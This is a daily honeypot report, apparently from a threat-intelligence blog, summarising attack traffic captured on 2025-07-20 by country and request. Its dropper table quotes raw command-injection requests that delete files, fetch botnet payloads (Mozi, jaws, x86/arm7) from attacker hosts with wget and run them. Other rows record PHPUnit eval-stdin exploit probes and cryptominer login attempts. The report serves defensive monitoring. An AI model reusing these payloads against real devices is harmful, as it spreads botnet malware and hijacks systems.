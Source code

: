 ```yaml
---
title: "Report: 2025-07-20 "
date: 2025-07-20
desciption: "Report: 2025-07-20" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-20 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 17 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3512 requests were recorded during the day, originating from 4 different countries, with a peak of 2703 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| BR               | Germany            |
| US               | Germany            |
| GB               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                              |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.219.249.195  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 183.223.32.168 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 27.0.216.40    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://27.0.216.40:36378/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0           |
| 45.153.34.79   | GET /shell?cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.125.66.95/x86;chmod+777+x86;./x86;cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.125.66.95/arm7;chmod+777+arm7;./arm7 HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|-----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   18 |                     4 | GET /profile/11764 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 1167 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220x207dd534e14c6f30b22fa37dcd351efaffe8e145\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 2004 |                     1 | \x00\x0E8\xC5=\xBB\xCA\x80\x96\xA0r\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 2036 |                     1 | POST /web/um_open_telnet.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 2043 |                     1 | POST /libraries/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 2064 |                     1 | \x00\x0E8\xAD\xB2\x17|l\x04\x84z\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 2068 |                     1 | POST /vendor/phpunit/phpunit/Util/PHP/eval-stdin.php%20/vendor/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 2069 |                     1 | POST /vendor/phpunit/Util/PHP/eval-stdin.php%20/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 2070 |                     1 | POST /phpunit/phpunit/Util/PHP/eval-stdin.php%20/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 2071 |                     1 | POST /phpunit/Util/PHP/eval-stdin.php%20/lib/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 2072 |                     1 | POST /lib/phpunit/phpunit/Util/PHP/eval-stdin.php%20/lib/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 2077 |                     1 | POST /api/vendor/phpunit/phpunit/src/Util/PHP/Template/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 2078 |                     1 | POST /lab/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 2079 |                     1 | POST /laravel_web/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 2081 |                     1 | POST /laravelao/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 2085 |                     1 | POST /admin/ckeditor/plugins/ajaxplorer/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 2241 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x2241xEyB5pnNFHYQUQTyFawt6Pn68AzovTRXaTVoBnSCPgVT1ng3TVge29ucy8DfW7GE2nHKw8tVqPH3R5gC4KCk2JPsFq7dX\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  2703 | GB                 |
|  1 |                   498 | US                 |
|  2 |                   175 | DE                 |
|  3 |                    20 | PL                 |
|  4 |                    17 | BG                 |
|  5 |                    16 | SG                 |
|  6 |                    11 | SC                 |
|  7 |                    11 | NL                 |
|  8 |                     9 | IN                 |
|  9 |                     9 | ZA                 |
| 10 |                     5 | CA                 |
| 11 |                     5 | HK                 |
| 12 |                     4 | JP                 |
| 13 |                     4 | UA                 |
| 14 |                     4 | FR                 |
| 15 |                     3 | BE                 |
| 16 |                     3 | KR                 |
| 17 |                     3 | KZ                 |
| 18 |                     2 | CN                 |
| 19 |                     2 | LT                 |
| 20 |                     2 | GR                 |
| 21 |                     2 | AR                 |
| 22 |                     1 | MC                 |
| 23 |                     1 | BR                 |
| 24 |                     1 | RO                 |
| 25 |                     1 | TR                 |
